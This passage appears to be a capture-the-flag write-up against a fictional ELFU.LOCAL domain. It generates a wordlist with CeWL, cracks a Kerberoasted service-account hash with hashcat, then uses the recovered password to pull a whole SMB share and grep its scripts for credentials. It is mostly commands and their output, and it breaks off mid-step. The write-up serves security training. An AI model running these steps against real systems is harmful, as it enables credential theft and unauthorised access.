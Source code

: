 ``` 
$sudo apt-get install ruby
git clone https://github.com/digininja/CeWL.git
$sudo gem install nokogiri
./cewl.rb –with-numbers https://register.elfu.org/register > ch8_dict.txt
``` 

Once we have the worldlist we like, then ..... we are ready to crack it! 
``` 
$hashcat64.bin -m 13100 -a 0 .\spns.txt -r rules\OneRuleToRuleThemAll.rule -o craccato.txt .\ch8_dict.txt -O
``` 

``` 
OUTPUT:
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$ELFU.local/elfu_svc*$aa5230518cc7587d7f56d14450a8………90b4c278c73c4975a:Snow2021!
``` 

So we know a share and we have a password .. let's try it
## smbclient again

```
$smbclient  \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc
Enter ELFU.LOCAL\elfu_svc's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Wed Dec 29 08:01:30 2021
  Get-NavArtifactUrl.ps1              N     2018  Wed Oct 27 19:12:43 2021
  Get-WorkingDirectory.ps1            N      188  Wed Oct 27 19:12:43 2021
  Stop-EtwTraceCapture.ps1            N      924  Wed Oct 27 19:12:43 2021
  create-knownissue-function.ps1      N     2104  Wed Oct 27 19:12:43 2021
  PsTestFunctions.ps1                 N    52454  Wed Oct 27 19:12:43 2021
  .......................
  ......................
``` 
There are a bunch of powershell scripts here. 
Try to get them on the Linux box in order to grep them looking for some password or creds ..  (I love grep!!!!) 
<br>An interesting feature of smbclient [(found in samba docs)](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
is the tar option, allowing us to download in a single tar all the files.
``` 
$mkdir test && cd test
$smbclient \\\\10.128.3.30\\elfu_svc_shr -U ELFU.local\\elfu_svc -Tc ./test.tar *
``` 

``` 
$ls -l 
total 1320
-rw-rw---- 1 iuwuvckfvi iuwuvckfvi 1348096 Dec 29 22:27 test.tar
``` 
Extract files from the tar archive.
```
$tar -xvf test.tar 
./Get-NavArtifactUrl.ps1
./Get-WorkingDirectory.ps1
./Stop-EtwTraceCapture.ps1
./create-knownissue-function.ps1
........
``` 
Searching "SecureString" with grep ..
```
$grep SecureString *ps1
``` 
Nothing useful except the pass to get a letsencrypt certificate .. retry with  
``` 
```
